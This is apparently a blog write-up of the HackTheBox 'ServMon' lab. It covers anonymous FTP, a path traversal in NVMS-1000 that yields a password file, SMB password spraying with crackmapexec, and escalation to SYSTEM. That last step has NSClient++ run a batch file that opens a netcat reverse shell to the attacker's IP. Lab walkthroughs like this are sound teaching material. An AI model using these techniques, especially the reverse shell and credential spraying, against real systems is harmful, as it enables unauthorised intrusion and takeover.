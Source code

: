 ```yaml
---
title: HackTheBox ServMon
author: Marius Kimmina
date: 2020-06-21 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [ftp, Windows, path traversal]
published: true
---
```



## 0x0 Introduction
Yet another Windows box. In this one  we use anonymous ftp access to find out about the existens of some internal files and then abuse a path traversal vulnerability to get hold of these files. Once we are on the box we use an exploit for NSClient++ to escalate privileges to System.
![image](/images/ServMon/servmon-pic.png "ServMon")

## 0x1 Getting a foothold and the user.txt

As always I started with a nmap scan (I left out some not all that relevant skript results to keep the output short)

```
$ nmap -sC -sV -oN nmap 10.10.10.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 11:52 CEST
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst:
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp   open  http
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  nrpe?
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
```
The first things to look at here are the Website, the anonymous login ftp, and maybe smb.
The Website only gave us a login page with not much else to see tho, so lets not waste too much time there.
SMB did not allow anonymous login, which means without credentials we can't do much there either.
FTP does allow anonymous login tho and contained some interesting Information:
```
$ ftp 10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:mindslave): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
```
Going into the Nadine and Nathan directory we also got two .txt files the first is in Nadines directory, it's called Confidental.txt

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards
```
The second one is in Nathans directory and is called 'Notes to do.txt' (to download this file via ftp u had to use \ for the whitespaces: get Notes\ to\ do.txt)
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

I Found the NSClient that Nathan was talking about on 10.10.10.184:8443, for this I had to go take another look at the nmap result from before:
```
8443/tcp  open  https-alt
```

Upon clicking 'forgot password' on the NSClient application it told me run the following commands, what a goofy application.
```
nscp web -- password --display
nscp web -- password --set new-password testing
```

looking up NSClient in searchsploit brought up a Priveledge escalation so this might be useful for getting the root flag latter on.
That means once we are on the box we can get the password for NSClient++ easily and possibly get root that way, right now that's not very helpful tho, so lets move on.
Next thing that I looked for was anonymous access to the rpcclient but with no success
```
rpcclient -U "" -N 10.10.10.184
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

Now I started looking into this 'napster' thing thats running on the box on port 6699, seems to be some music download service, a very old one tho, there are only 2 public cve's for napster one from 1999 and one from 2000.


Tried to exploit the nrpe (part of nagios) that's running on the box, but no success

```
$ /usr/lib/nagios/plugins/check_nrpe -H 10.10.10.184
CHECK_NRPE: Error - Could not connect to 10.10.10.184. Check system logs on 10.10.10.184
```

So, after all of this failed, I went back to the frontdoor of the box, the nvms-1000 running on port 80. It turns out that this thing has a 'path traversal' vulnerability, and since we know that nathan has a 'Passwords.txt' file on his desktop, that comes in very handy.
I send a request to the application intercepted it with burp and used the repeater to find the 'passwords.txt' file.

![image](/images/ServMon/Burp-path-traversal.png "path traversal")

Now I have a few possible passwords:
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

none of these worked on nvms-1000 nor on NSClient++ but trying them out on smb gave me a hit:

```
$ crackmapexec smb 10.10.10.184 -u Nathan -p pw.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE

$ crackmapexec smb 10.10.10.184 -u Nadine -p pw.txt
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
```

```
$ smbmap -u Nadine -p 'L1k3B1gBut7s@W0rk' -H 10.10.10.184
[+] IP: 10.10.10.184:445        Name: 10.10.10.184
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

And it also worked for as Nadines ssh password, which gave us the user.txt
```
nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

08/04/2020  22:28    <DIR>          .
08/04/2020  22:28    <DIR>          ..
23/05/2020  10:23                34 user.txt
```

# 0x02 Getting the root.txt
Now that we are logged in as Nadine we can get the password for the nsclient++ instance that we have discovered before
```
nadine@SERVMON C:\>"Program Files\NSClient++\nscp.exe" web -- password --display
Current password: ew2x6SsGTxjRwXOT
```
Because the page is only accessible from localhost we had to use ssh port forwarding to access the nsclient++ from our maschine.
```
$ ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```


Next, there are 2 things we need to copy over to the ServMon maschine, first a bat file with the following content to execute netcat:

```
@echo off
c:\temp\nc.exe 10.10.14.103 9001 -e cmd.exe
```

And of course the nc.exe itself, to bring both of these over to ServMon I used scp:

```
$ scp boese.bat nadine@10.10.10.184:/temp
$ scp nc.exe nadine@10.10.10.184:/temp
```

Now we configure the NSClient++ to run our boese.bat file, and since NSClient++ has to run with root or system privileges, this will give us a shell as System.

![image](/images/ServMon/nsclient-script.png "NSClient++")

Once you have that configured you hit Control -> Reload, wait a second or two and you will have your shell as System

![image](/images/ServMon/servmon-system.png "We are system")
